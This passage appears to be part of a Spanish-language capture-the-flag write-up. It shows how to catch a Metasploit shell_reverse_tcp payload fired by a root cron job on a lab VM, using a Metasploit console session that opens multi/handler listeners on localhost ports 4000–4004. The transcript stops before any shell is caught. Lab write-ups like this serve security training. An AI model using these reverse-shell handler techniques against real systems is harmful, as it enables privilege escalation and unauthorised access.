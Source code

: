 **5.  To solve this challenge, you need to appropriately interact with a Metasploit payload. The VM #1 has an exploit that is triggered by root every minute that executes a shell_reverse_tcp non-staged payload that connects back to a random port between 4000 and 4010 on localhost. Connect to the machine via SSH and use this crontab and corresponding payload to gain access to root and read the flag.**

Nos logeamos a la máquina a través del servicio SSH y seguidamente abrimos la interfaz de metasploit. Nuestra tarea es clara, abrir 10 'jobs' para escuchar 10 conexiones al mismo tiempo y capturar la reverse shell que se emite aleatoriamente entre los puertos 4000 y 4010.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 4000
LPORT => 4000
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4000 
background
[-] Unknown command: background.
msf6 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                    Payload opts
  --  ----                    -------                    ------------
  0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://127.0.0.1:4000

msf6 exploit(multi/handler) > set LPORT 4001
LPORT => 4001
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4001 
set LPORT 4002
LPORT => 4002
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4002 
set LPORT 4003
LPORT => 4003
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4003 
set LPORT 4004
LPORT => 4004
msf6 exploit(multi/handler) > exploit -j
```